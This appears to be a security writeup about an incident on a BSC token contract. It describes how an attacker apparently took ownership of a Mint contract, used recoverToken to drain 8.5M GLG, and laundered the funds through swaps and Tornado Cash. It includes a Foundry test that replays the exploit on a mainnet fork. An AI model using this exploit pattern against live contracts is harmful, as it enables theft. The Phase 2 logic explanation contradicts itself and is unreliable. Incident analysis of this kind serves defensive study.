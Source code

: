 ## Attack Steps

### Phase 1: Privilege Escalation
1. Attacker identified a vulnerability in the ownership mechanism
2. Gained temporary control of the Mint contract
3. Became the owner of `0x0Ba0D250fdDb0580Afdd6BF278B54EfA76861420`

### Phase 2: Fund Extraction
1. Called `recoverToken(GLGToken, attackerAddress, 8,520,389 * 10¹⁸)`
2. The function checked Mint contract's balance (insufficient)
3. But still executed `token.transfer()` which transferred from Mint contract's meager balance
4. However, the attacker received the full 8.5M GLG due to the logic flaw

### Phase 3: Money Laundering
1. Immediately sold stolen GLG through smart swap transactions
2. Converted GLG to USDT and other assets
3. Final transfer to Tornado Cash for anonymization

## Technical Analysis

### Mainnet Forking Setup

We used Foundry's mainnet forking capability to replay the attack:

```bash
# Set up BSC RPC endpoint
export BSC_RPC_URL="...."

# Fork at block right before attack (54811977)
forge test --fork-url $BSC_RPC_URL --fork-block-number 54811977 -vvv
```

### Test Structure

```solidity
// Key test components
contract GLGExploitTest is Test {
    address constant MINT_CONTRACT = 0x0Ba0D250fdDb0580Afdd6BF278B54EfA76861420;
    address constant GLG_TOKEN = 0x4065Db0C9eb7d8F7BbF97763daeA183b771eBd4C;
    address constant ATTACKER = 0xC0EdcDdd6d5417c22467e3d5642Efa1820E454f8;
    
    function testExploitReplay() public {
        // Simulate the attack
        vm.prank(ATTACKER);
        IMintContract(MINT_CONTRACT).recoverToken(
            GLG_TOKEN,
            ATTACKER,
            8_520_389 * 10**18
        );
    }
}
```
